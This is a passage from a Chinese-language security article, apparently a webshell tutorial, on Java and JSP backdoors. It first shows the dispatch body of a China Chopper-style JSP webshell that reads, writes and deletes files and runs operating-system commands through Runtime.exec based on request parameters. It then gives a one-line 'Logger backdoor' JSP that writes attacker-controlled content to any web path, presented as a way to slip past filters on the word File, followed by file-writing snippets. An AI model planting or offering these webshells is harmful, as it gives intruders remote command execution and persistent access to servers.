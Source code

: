 ```
;StringBuffer sb=new StringBuffer("");try{String Z=EC(request.getParameter(Pwd)+"");String z1=EC(request.getParameter("z1")+"");String z2=EC(request.getParameter("z2")+"");sb.append("->"+"|");String s=request.getSession().getServletContext().getRealPath("/");if(Z.equals("A")){sb.append(s+"\t");if(!s.substring(0,1).equals("/")){AA(sb);}}else if(Z.equals("B")){BB(z1,sb);}else if(Z.equals("C")){String l="";BufferedReader br=new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));while((l=br.readLine())!=null){sb.append(l+"\r\n");}br.close();}else if(Z.equals("D")){BufferedWriter bw=new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(z1))));bw.write(z2);bw.close();sb.append("1");}else if(Z.equals("E")){EE(z1);sb.append("1");}else if(Z.equals("F")){FF(z1,response);}else if(Z.equals("G")){GG(z1,z2);sb.append("1");}else if(Z.equals("H")){HH(z1,z2);sb.append("1");}else if(Z.equals("I")){II(z1,z2);sb.append("1");}else if(Z.equals("J")){JJ(z1);sb.append("1");}else if(Z.equals("K")){KK(z1,z2);sb.append("1");}else if(Z.equals("L")){LL(z1,z2);sb.append("1");}else if(Z.equals("M")){String[] c={z1.substring(2),z1.substring(0,2),z2};Process p=Runtime.getRuntime().exec(c);MM(p.getInputStream(),sb);MM(p.getErrorStream(),sb);}else if(Z.equals("N")){NN(z1,sb);}else if(Z.equals("O")){OO(z1,sb);}else if(Z.equals("P")){PP(z1,sb);}else if(Z.equals("Q")){QQ(cs,z1,z2,sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\","/")+"images/");}}catch(Exception e){sb.append("ERROR"+":// "+e.toString());}sb.append("|"+"&lt;-");out.print(sb.toString());</jsp:scriptlet></jsp:root>

```

0x02 Java Logger日志后门
--------------------

* * *

某些场景下shell可能被过滤掉了，但是利用一些有趣的东东可以绕过，比如不用new File这样的方式去写文件，甚至是尽可能的不要出现File关键字。

看了下java.util.logging.Logger挺有意思的，可以写日志文件，于是试了下用这样的方式去写一个shell，结果成功了。  

java.util.logging.Logger默认输出的格式是xml，但这都不是事，直接格式化下日志以text方式输出就行了。  

新建2.jsp并访问： 

```
<%java.util.logging.Logger l=java.util.logging.Logger.getLogger("t");java.util.logging.FileHandler h=new java.util.logging.FileHandler(pageContext.getServletContext().getRealPath("/")+request.getParameter("f"),true);h.setFormatter(new java.util.logging.SimpleFormatter());l.addHandler(h);l.info(request.getParameter("t"));%>

```

![enter image description here](http://drops.javaweb.org/uploads/images/933d5a1cdeee3eefe9b839b1a2937ed4e9a31d5a.jpg)

### 其他略特殊点的文件读写Demo：

```
new FileOutputStream 
          new FileOutputStream("d:/sb.txt").write(new String("123").getBytes()); 
          new DataOutputStream 
          new DataOutputStream(new FileOutputStream("d:/1x.txt")).write(new String("123").getBytes()); 
FileWriter fw = new FileWriter("d:/3.txt"); 
            fw.write("21"); 
            fw.flush(); 
            fw.close(); 
RandomAccessFile rf = new RandomAccessFile("d:/14.txt", "rw"); 
            rf.write(new String("3b").getBytes()); 
            rf.close();

```
